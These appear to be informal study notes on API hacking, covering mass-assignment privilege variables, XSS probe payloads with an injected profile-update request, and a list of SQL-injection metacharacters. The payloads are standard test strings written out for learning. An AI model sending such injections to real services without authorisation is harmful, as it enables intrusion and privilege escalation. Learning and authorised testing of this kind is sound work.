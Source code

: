 

## Authorization Exploitation
  - x

## Mass Assignments
  - we will need to see response and check for intresting variables such as "isAdmin":"True" , "Privillage":"Admin","mfa": true, or anything that is intreguing also notetaking is must to exploit mass assignemnts as we know that we need to acquire the variable name to use it in requests.

## Injection 
### XSS 
  - we can check this where api asks for client input and displays in a web some functionality should allow us that!!!!
  - we can change the "Content-Type: text/html" to make sure server knows that we want the request in htmk or text format.
  - <script>alert("xss")</script>
    <script>alert(1);</script>
    <%00script>alert(1)</%00script>
    SCRIPT>alert("XSS");///SCRIPT>
  - requests : 
    POST /api/profile/update HTTP/1.1
    Host: hapihackingblog.com
    Authorization: hAPI.hacker.token
    Content-Type: application/json
      {
        "fname": "hAPI",
        "lname": "Hacker",
        "city": "<script>alert("xas")</script>"
      }
### SQLi
  - Here are some SQL metacharacters that can cause some issues:
'             
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1

  - Basically want to make server error and get verbose data on the required parameter or application information such as which version and service is running.
